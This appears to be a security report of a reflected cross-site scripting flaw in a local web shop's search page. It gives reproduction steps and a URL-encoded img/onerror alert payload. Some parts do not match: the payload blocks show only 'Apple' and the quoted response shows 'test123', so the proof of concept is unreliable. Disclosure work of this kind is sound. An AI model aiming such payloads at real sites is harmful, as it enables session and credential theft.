


# Reflected Cross-Site Scripting (XSS) in Product Search Query

## Summary

A Reflected Cross-Site Scripting (XSS) vulnerability was discovered in the product search functionality of the website. The application reflects user input from the search parameter directly into the page without proper sanitization or encoding, allowing arbitrary JavaScript execution in the victim’s browser.

## Discription 
The search feature does not properly sanitize user-supplied input before rendering it in the HTML response. By injecting a malicious payload into the search query, an attacker can execute JavaScript code in the context of the victim’s browser.

Because the input is reflected directly in the response, this vulnerability is classified as Reflected Cross-Site Scripting (XSS).

An attacker could craft a malicious link containing the payload and trick users into clicking it, leading to execution of attacker-controlled scripts.

## Steps-To-Reproduce [STR]

1. Navigate to the website.
2. Click the Search bar. 
3. Enter the following payload into the search field:
```
Apple
```
4. Press Enter to perform the search.
5. **Observe** that the JavaScript payload executes and displays an alert popup.

## Proof-of-Concept [POC]

**Payload** -> To enter and search 


```
Apple
```
- Vulnerable endpoint
```
http://127.0.0.1:3000/#/search?q=Apple%3Cimg%20src%3Dx%20onerror%3Dalert('XSS')%3E
```
**Response**

The user input is reflected in the HTML response without proper sanitization:
```
<div _ngcontent-ng-c627343222="" class="ng-star-inserted">
<span _ngcontent-ng-c627343222="">
Search Results - 
</span>
<span _ngcontent-ng-c627343222="" id="searchValue">
test123

</span>
</div>
```
This allows the injected JavaScript to execute in the browser.

**ScreenShot**<br>


**Video Demo**<br>
A video demonstration showing the vulnerability in action:



## Impact
This vunlerability can lead too 
- **Session Hijacking**: Attackers steal session cookies to access user accounts.
- **Credential Theft**: Users are redirected to fake login pages to steal credentials.
- **Data Exfiltration**: Malicious scripts steal sensitive user or page data.
- **Website Defacement**: Attackers modify webpage content in real time.
- **Action Execution**: Attackers force browsers to perform unauthorized actions.

## Medium – CVSS ≈ 4.1–5.3


---
Report prepared by:  **zer0arc4**
